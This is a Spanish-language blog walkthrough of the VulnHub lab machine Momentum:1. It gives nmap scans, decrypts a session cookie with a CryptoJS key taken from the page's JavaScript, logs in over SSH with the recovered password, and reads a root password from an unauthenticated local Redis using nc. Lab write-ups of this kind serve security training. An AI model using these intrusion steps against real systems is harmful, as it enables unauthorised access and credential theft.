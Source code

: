 ```yaml
---
layout: single
title: Momentum:1 - VulnHub
excerpt: " Info: easy / medium "
date: 2022-11-28
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-momentum1/momentum1.png
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:  
  - cryptojs
  - javascript
  - nc
---
```


Info: easy / medium

# Summary
- IP: 192.168.0.108
- Ports: 22,80
- OS: Linux (Debian Buster)
- Services & Applications:
	-  22 -> OpenSSH 7.9p1 Debian 10+deb10u2
	-  80 -> Apache httpd 2.4.38

# Recon

- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.0.108 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$sudo nmap -p22,80 -sCV 192.168.0.108 -oN targeted
```

- Escaneo básico de página web:

```bash
$sudo nmap --script http-enum -p80 192.168.0.108 -oN webScan
```

- Analizamos el código fuente de la página web principal, vemos un main.js el cual contiene código con la función de CryptoJS con la respectiva contraseña.
- En el buscador encontramos una plantilla para usar la función de crypto JS y probamos introduciendo la cookie de sesión que parece estar cifrada para poder descifrarla:

```js
// INIT
var encrypted   = "U2FsdGVkX193yTOKOucUbHeDp1Wxd5r7YkoM8daRtj0rjABqGuQ6Mx28N1VbBSZt";
var myPassword = "SecretPassphraseMomentum";


// PROCESS
var decrypted = CryptoJS.AES.decrypt(encrypted, myPassword);

document.getElementById("demo2").innerHTML = decrypted;
document.getElementById("demo3").innerHTML = decrypted.toString(CryptoJS.enc.Utf8);
--------------------------------------------------------------------------------------------------------------
Decrypted: 617578657272652d616c69656e756d2323

String after Decryption: auxerre-alienum##**
```

- Intentamos usar el string descrifrado como contraseña para acceder via ssh a la máquina con el usuario "auxerre":

```bash
$ssh auxerre@192.168.0.108
```

- Encontramos la flag de usuario:

# USER FLAG: 84157165c30ad34d18945b647ec7f647


# ESCALANDO PRIVILEGIOS:

- Hacemos búsqueda básica y no encontramos nada.
- Enumeramos los procesos activos y encontramos un redis-server corriendo en el puerto 6379:

```bash
ps -faux
```

- Comprobamos que dicho puerto esté abierto:

```bash
ss -nltp
```

- Nos conectamos al equipo local por el puerto 6379:

```bash
nc localhost 6379
```

- Consultamos que bases de datos están activas:

```
INFO keyspace
```

- Seleccionamos la base de datos existente

```
SELECT 0
```

- Mostramos las keys:

```
KEYS *
```

- Leemos la key encontrada:

```
GET rootpass
```

- Obtenemos la credencial de root, accedemos y obtenemos la flag:

# ROOT FLAG: 658ff660fdac0b079ea78238e5996e40
